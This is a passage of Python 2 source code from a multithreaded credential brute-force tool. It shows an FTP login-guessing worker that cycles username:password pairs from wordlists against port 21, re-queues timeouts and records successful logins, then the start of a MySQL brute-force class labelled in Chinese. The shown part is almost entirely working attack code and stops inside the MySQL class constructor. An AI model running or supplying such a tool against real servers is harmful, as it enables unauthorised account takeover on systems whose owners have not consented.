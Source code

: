     def thread(self):
        while not self.qlist.empty():
            name,pwd = self.qlist.get().split(':')
            try:
                ftp = FTP()
                ftp.connect(self.host, 21, self.timeout)
                ftp.login(name, pwd)
                time.sleep(0.05)
                ftp.quit()
                s = "[OK] %s:%s" % (name,pwd)
                self.show_log(self.host,s)
                self.result.append(s)
            except socket.timeout:
                self.show_log(self.host,"Timeout...")
                self.qlist.put(name + ':' + pwd)
                time.sleep(1)
            except Exception, e:
                error = "[Error] %s:%s" % (name,pwd)
                self.show_log(self.host,error)
                pass

    def run(self):
        self.get_queue()
        starttime = time.time()

        threads = []
        for x in xrange(1,self.threadnum+1):
            t = threading.Thread(target=self.thread)
            threads.append(t)
            t.setDaemon(True) #主线程完成后不管子线程有没有结束，直接退出
            t.start()

        try:
            while True:
                if self.qlist.empty():
                    break
                else:
                    time.sleep(1)
        except KeyboardInterrupt:
            self.is_exit = True
            print "Exit the program..."
        print "Waiting..."
        time.sleep(5)

        self.show_result(self.host,self.result)
        finishetime = time.time()
        print "Used time: %f" % (finishetime-starttime)

#################MySQL爆破模块#################
class MysqlBruter(CommonFun):
    """docstring for MysqlBruter"""
    def __init__(self, *args):
        super(MysqlBruter, self).__init__()
        (options,arg) = args
        self.host = options.host
        self.userfile = options.userfile
        self.passfile = options.passfile
        self.threadnum = options.threadnum
        self.timeout = options.timeout
        self.result = []
        self.set_log(self.host)
        self.qlist = Queue.Queue()
        print self.host,self.userfile,self.passfile,self.threadnum
